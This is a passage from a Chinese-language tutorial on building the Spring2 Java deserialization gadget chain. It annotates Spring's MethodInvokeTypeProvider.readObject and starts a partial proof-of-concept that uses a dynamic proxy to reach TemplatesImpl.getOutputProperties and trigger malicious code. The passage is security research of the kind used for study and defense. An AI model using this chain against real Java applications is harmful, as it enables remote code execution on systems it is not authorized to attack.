 ```java
    }

    @Override
    public Object getSource() {
        return null;
    }
	// 反序列化方法
    private void readObject(ObjectInputStream inputStream) throws ...... {
        // 反序列化恢复默认字段值，(恢复序列化时的provider、methodName、index字段)
        inputStream.defaultReadObject();
        // 从TypeProvider.getType() 中搜索一个叫做 methodName 这个方法名的方法
        // 假设methodName的值为：getOutputProperties，这个就是我们想要调用的方法
        // 那么就是从TypeProvider中搜索getOutputProperties方法
        Method method = ReflectionUtils.findMethod(this.provider.getType().getClass(), this.methodName);
        // 调用provider.getType()中的method方法
        this.result = ReflectionUtils.invokeMethod(method, this.provider.getType());
    }
}
```

请先阅读我在`readObject`中留的注释，这样才方便后续的理解......

那么如果我们能让`this.provider.getType()`的结果是一个`TemplatesImpl`对象，那么通过`ReflectionUtils.invokeMethod("getOutputProperties", TemplatesImpl)`即可触发恶意代码。

在构造之前，我们得先知道`this.provider.getType()`返回回来的是个什么东西。

该方法的接口定义如下：

```java
static interface TypeProvider extends Serializable {

    /**
     * Return the (possibly non {@link Serializable}) {@link Type}.
     */
    Type getType();

    /**
     * Return the source of the type or {@code null}.
     */
    Object getSource();
}
```

如果我们想让`getType()`方法执行之后能得到一个`TemplatesImpl`对象。这几乎是不可能的，而Spring2链的挖掘者提供了一种动态代理思路来完成这个构造。

我们需要代理一个`TypeProvider`接口的一个动态代理实现，如果触发这个动态代理的`getType`方法之后能返回一个`TemplatesImpl`对象。

此时，我们可以先按照这个思路构造这样的一段残缺的POC出来了。

```java
public static void main(String[] args) throws Exception {
    // -----------------关注的重点在这儿------------------
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    // 此时我们的xxxxxxx还不知道怎么构建
    Object typeProviderProxy = Proxy.newProxyInstance(Spring2.class.getClassLoader(), new Class[]{typeProvider}, xxxxxxxxx);


    // -----------------这段代码只是为了创建MethodInvokeTypeProvider实例-------------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
```